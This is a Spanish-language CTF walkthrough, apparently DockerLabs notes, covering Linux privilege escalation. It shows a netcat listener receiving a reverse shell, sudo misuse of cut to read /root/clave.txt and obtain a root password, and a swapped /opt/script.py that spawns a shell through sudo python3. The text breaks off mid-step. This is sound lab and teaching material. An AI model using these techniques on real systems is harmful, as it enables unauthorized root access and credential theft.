nc -nlvp 4444
listening on [any] 4444 ...
connect to [192.168.0.26] from (UNKNOWN) [172.17.0.2] 53368
bash
whoami
dylan


-------------------------------------------------------------------------------
9.-  	 /usr/bin/cut , /usr/bin/grep

User www-data may run the following commands on f4f04dfa4361:
    (root) NOPASSWD: /usr/bin/cut
    (root) NOPASSWD: /usr/bin/grep

lo de las líneas arriba significa que podemos ver archivos que tienen permisos de root.

entonces buscamos algo parecido a lo mencionado.

en opt encontramos una nota.txt que decía lo siguiente:

Protege la clave de root, se encuentra en su directorio /root/clave.txt, menos mal que nadie tiene permisos para acceder a ella.


entonces para visualizar la clave.txt utilizamos el binario cut:

sudo cut -d "" -f1 "$FILE"

forma de ejecutar:

sudo cut -d "" -f1 "/root/clave.txt"

la clave es:

dockerlabsmolamogollon123

entonces accedemos como root con:

su root:

escribimos la clave y listo somos root !!!

-------------------------------------------------------------------------------

10.-	/usr/bin/python3 /opt/script.py 
User carlos may run the following commands on 9ddc4942d02b:
    (ALL) NOPASSWD: /usr/bin/python3 /opt/script.py

entramos en opt, renombramos el archivo script.py a scripts.py, creamos un archivo script.py con el siguiente código:

import os
os.system("/bin/sh")


le damos persmisos

chmod 777 script.py

luego ejecutamos:
